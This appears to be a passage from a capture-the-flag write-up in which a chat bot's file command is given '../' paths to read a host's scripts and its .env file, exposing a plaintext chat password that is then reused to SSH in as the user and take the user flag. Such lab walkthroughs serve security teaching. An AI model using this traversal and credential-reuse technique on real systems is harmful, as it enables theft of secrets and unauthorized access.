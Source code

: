 ```
bash /home/dwight/hubot/start_bot.sh&
else


echo "[+] Bot running succesfully! date";
fi

else
# Restarts bot
echo "[-] Bot not running! date
";
#Killing the old process
pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6);
kill -9 $pid;
cd /home/dwight/hubot;
bash /home/dwight/hubot/start_bot.sh&
fi

done
<!=====End of file ../bot_restart.sh=====>
$ recyclops file ../.hubot_history
!=====Contents of file ../.hubot_history=====>
time
connect
help
<!=====End of file ../.hubot_history=====>
$ recyclops file ../hubot/start_bot.sh
 <!=====Contents of file ../hubot/start_bot.sh=====>
#!/bin/bash
cd /home/dwight/hubot
source /home/dwight/hubot/.env
/home/dwight/hubot/bin/hubot
#cd -
<!=====End of file ../hubot/start_bot.sh=====>
$ recyclops file ../hubot/.env
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

## Lateral Movement

As you can see, running `recyclops file ../hubot/.env` gives us a password of `Queenofblad3s!23`. Using that password to SSH into the box as the user `dwight` (since that name has been mentioned a lot and it is the user whose file we have been browsing) works. We can now `cat user.txt` and get the user flag.

